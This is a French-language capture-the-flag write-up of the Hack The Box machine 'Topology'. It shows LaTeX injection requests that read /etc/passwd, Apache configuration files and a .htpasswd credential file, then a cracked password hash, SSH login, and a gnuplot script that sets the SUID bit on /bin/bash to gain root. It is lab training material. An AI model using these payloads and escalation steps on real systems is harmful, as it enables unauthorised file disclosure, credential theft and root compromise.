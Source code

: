 ```yaml
---
title:  "HacktheBox WriteUp : Topology"
category: HackTheBox
tag: writeups
---
```


### Scanner le réseau

`sudo nmap 10.10.11.217 -sV -O`

- \-sV Tente de déterminer la version du service fonctionnant sur le port
- \-O Os Fingerprinting

Après analyse du site, on voit un outil permettant de transformer du code Latex en image sur le lien `http://latex.topology.htb/equation.php`.


SCREENSHOT

En interceptant la requête, on voit que l'on peut manipuler le paramètre `eqn` sur le lien suivant :
```HTTP
GET /equation.php?eqn=\frac{x+5}{y-3}&submit= HTTP/1.1
```

En cherchant sur [hacktricks](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection), on voit que l'on peut faire des injections Latex.

On en vient à trouver une parload qui permet de lire le contenu de `/etc/passwd`.

```HTTP
GET /equation.php?eqn=$\lstinputlisting{/etc/passwd}$&submit= HTTP/1.1
```

SCREENSHOT

Après lecture de quelques documentations sur apache (voir ref), et tentatives non fructueuses comme la suivante :
```HTTP
GET /equation.php?eqn=$\lstinputlisting{/var/www/html/.htpasswd}$&submit= HTTP/1.1
```

On analyses quelques fichiers de configuration d'apache2.
```console
$\lstinputlisting{/etc/apache2/apache2.conf}$
$\lstinputlisting{/etc/apache2/envvars}$
$\lstinputlisting{/var/run/apache2/apache2.pid}$
$\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$
```
On voit l'existence de 2 hosts virtuels : 
- dev.topology.htb 
- stats.topology.htb

Un fichier pour stocker les credentials sous apache est `htpasswd`.

On essaye donc sur les 2 hosts virtuels que l'on vient de découvrir.
```HTTP
GET /equation.php?eqn=$\lstinputlisting{/var/www/dev/.htpasswd}$&submit= HTTP/1.1
```
ce qui nous permet d'obtenir un couple de credentials.

SCREENSHOT

vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

### Crackage de mdp
```console 
john --wordlist=/tmp/rockyou.txt pass.txt
```
On obtient le pass `calculus20`.

## Foothold
On se rappelle qu'il y avait un service ssh sur la box en question.
On utilise donc  les credentials `vdaisley:calculus20` obtenus lors de l'étape précédente.
On affiche le fichier `user.txt` du dossier courant.

## Escalade de privilège

On regarde les logiciels installés sur la machine parmi les suivants, d'après la [source](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-linux)
 :
```console
/usr/local/
/usr/local/src
/usr/local/bin
/opt/
/home
/var/
/usr/src/
```



SCREENSHOT ll

Au vu des permissions accordées, et de la possibilité d'exploiter `gnuplot` dans cet [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/?source=post_page-----1e4cf07d7805--------------------------------)



En mettant un sticky-bit au fichier `/bin/bash`, on peut obtenir un shell root :

```console
echo "system 'chmod u+s /bin/bash'" > /opt/gnuplot/hacked.plt
```

### Ref
- Latex Injection :
https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection
- Apache : 
  - https://utho.com/docs/tutorial/how-to-change-apache2-web-folder-in-ubuntu/
  - https://httpd.apache.org/docs/2.4/sections.html
  - https://docs.tibco.com/pub/api-exchange-gateway/2.2.0/doc/html/GUID-2A245B48-8CFA-418B-962F-14EDB642BE74.html
- Utilisation of john
https://security.stackexchange.com/questions/232139/john-format-md5-caused-unknown-ciphertext-format-name-requested-error



